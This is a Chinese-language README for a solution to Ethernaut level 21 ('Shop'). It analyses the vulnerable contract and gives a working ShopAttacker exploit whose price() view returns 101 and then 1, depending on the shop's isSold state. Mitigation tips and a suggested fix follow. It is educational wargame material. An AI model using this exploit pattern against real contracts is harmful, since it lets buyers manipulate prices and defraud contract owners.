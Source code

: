 # 🏪 Ethernaut Level 21: Shop 挑戰

這是一個針對 [Ethernaut](https://ethernaut.openzeppelin.com/) 第 21 關 "Shop" 的解決方案專案。本挑戰旨在測試您對 Solidity view 函數與狀態變更之間交互作用的理解，以及如何利用這些交互來操控智能合約的行為。

## 🎯 挑戰目標

以低於商店要求價格購買商品。Shop 合約的商品定價為 100，我們需要想辦法以更低的價格購買。

## 📋 合約分析

### Shop 合約

```solidity
contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

### Buyer 介面

```solidity
interface Buyer {
    function price() external view returns (uint256);
}
```

## 🔍 漏洞分析

### 關鍵弱點

1. **介面實作漏洞**: Shop 合約依賴外部合約實作的 `price()` 函數
2. **雙重調用**: `buy()` 函數會調用 `price()` 兩次：
   - 第一次：在條件檢查中 (`_buyer.price() >= price`)
   - 第二次：更新價格時 (`price = _buyer.price()`)
3. **狀態依賴**: 兩次調用之間，`isSold` 狀態會發生變化

### 攻擊思路

由於 `price()` 是 view 函數，不能修改狀態變數。但我們可以：
- 讀取 Shop 合約的 `isSold` 狀態
- 根據 `isSold` 的值返回不同的價格
- 第一次調用時返回高價格 (≥100)
- 第二次調用時返回低價格 (<100)

## 🚀 攻擊實作

### ShopAttacker 合約

```solidity
contract ShopAttacker {
    Shop private shop;

    constructor(address _contractAddress) {
        shop = Shop(_contractAddress);
    }

    function price() public view returns (uint256) {
        if (shop.isSold() == false) {
            return 101;  // 第一次調用：通過價格檢查
        }
        return 1;        // 第二次調用：設定低價格
    }

    function buy() public {
        shop.buy();
    }
}
```

## 🛠️ 使用說明

### 環境要求

- Node.js >= 16
- Hardhat
- TypeScript

### 安裝依賴

```bash
npm install
```

### 編譯合約

```bash
npx hardhat compile
```

### 執行測試

```bash
npx hardhat test
```

### 部署到本地網路

```bash
# 啟動本地區塊鏈
npx hardhat node

# 部署合約
npx hardhat run scripts/deploy.ts --network localhost
```

### 在 Ethernaut 平台上使用

1. 開啟瀏覽器開發者工具
2. 獲取 Shop 合約實例地址：
   ```javascript
   console.log(contract.address)
   ```
3. 部署 ShopAttacker 合約（使用上述地址作為參數）
4. 調用 `buy()` 函數執行攻擊
5. 驗證結果：
   ```javascript
   await contract.price() // 應該顯示為 1
   ```

## 📚 學習要點

### Solidity 安全問題

1. **介面信任問題**: 永遠不要盲目信任外部合約的介面實作
2. **View 函數安全**: 即使是 view 函數也可能被惡意操控
3. **狀態檢查時序**: 避免在同一函數中多次調用外部函數進行關鍵決策

### Gas 限制考量

本挑戰中 `price()` 函數有 3000 gas 的限制，這限制了我們：
- 不能修改儲存狀態
- 不能執行複雜運算
- 需要使用讀取外部狀態的方式來實現條件邏輯

### 防護措施

1. **實作檢查**: 確保所有介面函數都有適當的實作
2. **單次決策**: 避免基於外部調用的結果做多次決策
3. **狀態鎖定**: 在關鍵操作期間鎖定狀態變更
4. **重入保護**: 使用重入保護機制

## 🔐 改進建議

```solidity
contract SecureShop {
    uint256 public price = 100;
    bool public isSold;
    bool private _buying; // 重入保護

    function buy(uint256 maxPrice) public payable {
        require(!_buying, "Reentrant call");
        require(!isSold, "Already sold");
        require(msg.value >= price, "Insufficient payment");
        require(maxPrice >= price, "Price too high");
        
        _buying = true;
        isSold = true;
        // 處理付款邏輯...
        _buying = false;
    }
}
```

## 📖 相關資源

- [Ethernaut 官方網站](https://ethernaut.openzeppelin.com/)
- [Solidity 文檔 - View 函數](https://docs.soliditylang.org/en/latest/contracts.html#view-functions)
- [OpenZeppelin 合約安全指南](https://docs.openzeppelin.com/contracts/)

## 🤝 貢獻

歡迎提交 Pull Request 或開啟 Issue 來改進此專案。

## 📄 授權

本專案採用 MIT 授權條款。
